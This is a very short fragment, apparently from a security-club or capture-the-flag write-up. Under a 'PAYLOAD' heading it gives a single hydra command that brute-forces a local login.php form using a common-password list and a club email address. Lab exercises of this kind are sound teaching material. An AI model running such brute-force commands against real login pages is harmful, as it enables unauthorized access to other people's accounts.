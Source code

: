 ## PAYLOAD

> ### hydra -l email@sict-ccs.club -P 1000-most-common-passwords.txt -s 9000 localhost http-post-form "/login.php:email=sict.ccsclub@gmail.com&pass=^PASS^:F=error"